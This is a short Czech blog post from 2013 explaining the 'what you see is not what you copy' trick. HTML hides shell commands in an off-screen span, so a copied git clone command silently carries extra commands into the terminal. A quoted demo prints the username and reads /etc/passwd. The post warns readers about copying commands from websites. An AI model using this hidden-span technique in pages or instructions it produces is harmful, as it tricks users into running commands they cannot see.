 Title: WYSINWYC (What you see is not what you copy) exploit
Date: 2013-04-08 21:58
Author: Jakub Jedelsky
Slug: wysinwyc-what-you-see-is-not-what-you-copy-exploit

Je to docela známá fičura, která se objevuje (hlavně) na zpravodajských
serverech - při zkopírování části textu se do clipboardu přidá daší
text, o který nikdo tak úplně nestojí. Když už se ale do Wordu vloží,
tak jej lehce umažeme (a [kašleme na nějaké citace][]). Co když se ale
zrovna nekopíruje část článku, ale **unixové příkazy, u kterých je velká
pravděpodobnost, že půjdou rovnou do terminálu?**  
  
Kolega mě upozornil na [pěknou ukázku][], jak tohoto zneužít. Vezměte
si třeba tento jednoduchý příkaz, který si z nějakého důvodu chcete
zkopírovat do terminálu a spustit (převzato z původního zdroje):

<pre>git clone<span style="position: absolute; left: -100px; top: -100px;"> /dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!; Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd; git clone </span>  git://git.kernel.org/pub/scm/utils/kup/kup.git</pre>

Jak nevinně se, hajzlík, tváří! Uživatel čeká, že si nahrajeme zdrojáky
k modulu kernelu, ale při zkopírování nedostane jen toto - do schránky
se přidá i skrytý bonus. Zkus to.

Celý trik je v tom, že část, kterou před uživatelem chceme schovat,
pomocí tagu ```<span>``` lehce posuneme. Celé to pak vypadá
nějak takto:

```bash
git clone 
<span style="position: absolute; left: -100px; top: -100px;">
    /dev/null; 
    clear; 
    echo -n "Hello ";whoami|tr -d '\n';
    echo -e "\nThat was a bad idea. Don't copy code from websites you don't trust! Here's the first line of your /etc/passwd: ";
    head -n1 /etc/passwd;
    git clone
</span>
git://git.kernel.org/pub/scm/utils/kup/kup.git
```

Metod, jak přidat k textu v clipboardu něco navíc je spousta. Takže
pozor co a odkud kopírujete. Pokud například berete více příkazů
současně, může se mezi ně jednoduše něco takového vloudit.

[Původní zdroj][pěknou ukázku]  
[Dokument o WYSINWYC][]

  [kašleme na nějaké citace]: http://www.ceskatelevize.cz/ct24/regiony/jihomoravsky-kraj/119385-onderkova-zaverecna-prace-na-vs-nevyhovuje-kriteriim/
    "O bakalářské práci nejlepšího primátora největšího města ČR"
  [pěknou ukázku]: http://thejh.net/misc/website-terminal-copy-paste
  [Dokument o WYSINWYC]: http://www.ush.it/team/ascii/hack-tricks_253C_CCC2008/wysinwyc/what_you_see_is_not_what_you_copy.txt
